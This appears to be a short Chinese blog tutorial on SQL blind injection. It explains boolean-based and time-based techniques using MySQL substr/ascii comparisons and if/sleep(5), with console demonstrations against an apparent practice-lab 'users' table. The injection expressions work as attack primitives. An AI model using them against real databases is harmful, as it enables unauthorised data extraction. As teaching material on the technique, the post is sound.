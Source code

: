 ```yaml
---
layout: post
title:  "SQL盲注"
date:   2018-01-06 21:41:45 +0800
categories: [SQL, 盲注]
---
```


> 在没有回显，报错的情况下我们要利用一个注入，大致分为这两类：布尔，时间（这里没有将报错归入盲注是我觉得报错还是有错误回显回来的）

1.**基于布尔型的盲注**
先介绍几个下面可能会用到的函数：
-	left(str,len) 返回str从左到右的len长度的字符
-	substr(str,pos,len);
	mid(str,pos,len);
    substring(str,pos,len);
    返回str第pos位向右len长度的字符(mysql里的解释是：substr,mid is a synonym for SUBSTRING)
-	ascii(char); 
	ord(char);
    返回字符的ascii码值
-	like '';
	regexp '' 模糊匹配模式

简单的演示
```mysql
mysql> select * from users where id=1 and ascii(substr((select user()),1,1)) > 49;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and ascii(substr((select user()),1,1)) = 49;
Empty set (0.00 sec)
```

2.**基于时间的盲注**
基于时间的话，主要会利用到这两个函数sleep()和benchmark()配合if使用像下面这样
```mysql
mysql> select * from users where id=1 union select 1,1,if(ascii(substr((select user()),1,1)) = 49,0,sleep(5));
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  1 | 1        | 0        |
+----+----------+----------+
2 rows in set (5.00 sec)
```
